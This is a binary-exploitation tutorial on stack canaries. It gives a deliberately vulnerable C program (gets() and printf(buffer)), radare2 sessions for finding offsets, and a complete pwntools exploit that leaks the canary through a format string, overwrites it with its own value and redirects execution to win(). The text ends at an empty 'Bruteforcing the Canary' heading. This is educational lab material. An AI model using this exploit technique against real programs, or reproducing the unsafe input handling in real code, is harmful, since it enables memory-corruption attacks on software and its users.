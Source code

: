 ```yaml
---
description: The Buffer Overflow defence
---
```


# Stack Canaries

Stack Canaries are very simple - at the beginning of the function, a random value is placed on the stack. Before the program executes `ret`, the current value of that variable is compared to the initial: if they are the same, no buffer overflow has occurred.

If they are not, the attacker attempted to overflow to control the return pointer and the program crashes, often with a `***stack smashing detected***` error message.

> Note: On Linux, stack canaries end in `00`. This is so that they null-terminate any strings in case you make a mistake when using print functions.

## Bypassing Canaries

There are two ways to bypass a canary.

### Leaking it

This is quite broad and will differ from binary to binary, but the main aim is to read the value. The simplest option is using **format string** if it is present - the canary, like other local variables, is on the stack, so if we can leak values off the stack it's easy.

#### Source

```c
#include <stdio.h>

void vuln() {
    char buffer[64];

    puts("Leak me");
    gets(buffer);

    printf(buffer);
    puts("");

    puts("Overflow me");
    gets(buffer);
}

int main() {
    vuln();
}

void win() {
    puts("You won!");
}
```

The source is very simple - it gives you a format string vulnerability, then a buffer overflow vulnerability. The format string we can use to leak the canary value, then we can use that value to overwrite the canary with itself. This way, we can overflow past the canary but not trigger the check as its value remains constant. And of course, we just have to run `win()`.

#### 32-bit

{% file src="../.gitbook/assets/canary-32.zip" caption="Canary - 32-bit" %}

First let's check there **is** a canary:

```text
$ pwn checksec vuln-32 
[*] 'vuln-32'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

Yup, there is. Now we need to calculate at what offset the canary is at, and to do this we'll use radare2.

```text
$ r2 -d -A vuln-32

[0xf7f2e0b0]> db 0x080491d7
[0xf7f2e0b0]> dc
Leak me
%p
hit breakpoint at: 80491d7
[0x080491d7]> pxw @ esp
0xffd7cd60  0xffd7cd7c 0xffd7cdec 0x00000002 0x0804919e  |...............
0xffd7cd70  0x08048034 0x00000000 0xf7f57000 0x00007025  4........p..%p..
0xffd7cd80  0x00000000 0x00000000 0x08048034 0xf7f02a28  ........4...(*..
0xffd7cd90  0xf7f01000 0xf7f3e080 0x00000000 0xf7d53ade  .............:..
0xffd7cda0  0xf7f013fc 0xffffffff 0x00000000 0x080492cb  ................
0xffd7cdb0  0x00000001 0xffd7ce84 0xffd7ce8c 0xadc70e00  ................
```

The last value there is the canary. We can tell because it's roughly 64 bytes after the "buffer start", which should be close to the end of the buffer. Additionally, it ends in `00` and looks very random, unlike the libc and stack addresses that start with `f7` and `ff`. If we count the number of address it's around 24 until that value, so we go one before and one after as well to make sure.

```text
$./vuln-32

Leak me
%23$p %24$p %25$p
0xa4a50300 0xf7fae080 (nil)
```

It appears to be at `%23$p`. Remember, stack canaries are randomised for each new process, so it won't be the same.

Now let's just automate grabbing the canary with pwntools:

```python
from pwn import *

p = process('./vuln-32')

log.info(p.clean())
p.sendline('%23$p')

canary = int(p.recvline(), 16)
log.success(f'Canary: {hex(canary)}')
```

```text
$ python3 exploit.py 
[+] Starting local process './vuln-32': pid 14019
[*] b'Leak me\n'
[+] Canary: 0xcc987300
```

Now all that's left is work out what the offset is until the canary, and then the offset from after the canary to the return pointer.

```text
$ r2 -d -A vuln-32
[0xf7fbb0b0]> db 0x080491d7
[0xf7fbb0b0]> dc
Leak me
%23$p
hit breakpoint at: 80491d7
[0x080491d7]> pxw @ esp
[...]
0xffea8af0  0x00000001 0xffea8bc4 0xffea8bcc 0xe1f91c00
```

We see the canary is at `0xffea8afc`. A little later on the return pointer \(we assume\) is at `0xffea8b0c`. Let's break just after the next `gets()` and check what value we overwrite it with \(we'll use a De Bruijn pattern\).

```text
[0x080491d7]> db 0x0804920f
[0x080491d7]> dc
0xe1f91c00
Overflow me
AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQAARAASAATAAUAAVAAWAAXAAYAAZAAaAAbAAcAAdAAeAAfAAgAAhAAiAAjAAkAAlAAmAAnAAoAApAAqAArAAsAAtAAuAAvAAwAAxAAyAAzAA1AA2AA3AA4AA5AA6AA7AA8AA9AA0ABBABCABDABEABFA
hit breakpoint at: 804920f
[0x0804920f]> pxw @ 0xffea8afc
0xffea8afc  0x41574141 0x41415841 0x5a414159 0x41614141  AAWAAXAAYAAZAAaA
0xffea8b0c  0x41416241 0x64414163 0x41654141 0x41416641  AbAAcAAdAAeAAfAA
```

Now we can check the canary and EIP offsets:

```text
[0x0804920f]> wopO 0x41574141
64
[0x0804920f]> wopO 0x41416241
80
```

Return pointer is 16 bytes after the canary start, so 12 bytes after the canary.

```python
from pwn import *

p = process('./vuln-32')

log.info(p.clean())
p.sendline('%23$p')

canary = int(p.recvline(), 16)
log.success(f'Canary: {hex(canary)}')

payload = b'A' * 64
payload += p32(canary) # overwrite canary with original value - stop from triggering
payload += b'A' * 12
payload += p32(0x08049245)

p.clean()
p.sendline(payload)

print(p.clean().decode('latin-1'))
```

#### 64-bit

Same source, same approach, just 64-bit. Try it yourself before checking the solution.

{% hint style="info" %}
Remember, in 64-bit format string goes to the relevant registers first and the addresses can fit 8 bytes each so the offset may be different.
{% endhint %}

{% file src="../.gitbook/assets/canary-64.zip" caption="Canary - 64-bit" %}

### Bruteforcing the Canary


